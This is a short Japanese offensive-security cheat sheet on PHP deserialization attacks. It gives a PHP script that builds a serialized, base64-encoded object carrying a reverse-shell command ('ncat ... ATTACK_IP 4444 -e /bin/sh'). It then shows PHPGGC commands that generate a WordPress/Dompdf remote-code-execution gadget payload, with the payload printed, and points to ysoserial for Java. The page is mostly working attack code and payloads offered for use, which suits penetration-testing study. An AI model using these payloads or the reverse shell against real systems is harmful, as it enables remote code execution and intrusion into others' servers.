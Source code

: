 # デシリアライズ

PHP でオブジェクトをシリアライズする例  
php foo.php で実行

```php
<?php
# 仮にMaliciousUserDataクラスがwakeupマジック関数で$commandを実行する実装になっている場合、その動作を制御できる
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```

## 自動化

### PHPGGC

https://github.com/ambionics/phpggc

```shell
# インストール
git clone https://github.com/ambionics/phpggc.git
cd phpggc

# 一覧
./phpggc -l
./phpggc -l WordPress

# 詳細情報
./phpggc -i WordPress/Dompdf/RCE1

# ペイロードを取得
./phpggc WordPress/Dompdf/RCE1 system whoami
O:19:"Dompdf\Adapter\CPDF":1:{s:15:"*_image_cache";O:33:"Requests_Utility_FilteredIterator":4:{i:0;i:0;i:1;a:1:{i:0;s:6:"whoami";}i:2;a:1:{s:11:"*callback";s:6:"system";}i:3;N;}}

# ペイロードを送信する方法はフレームワークによって様々。
# Cookieを変更したり、APIキーと合わせてエンコードしたり。
```

### Ysoserial

Java 用

https://github.com/frohoff/ysoserial
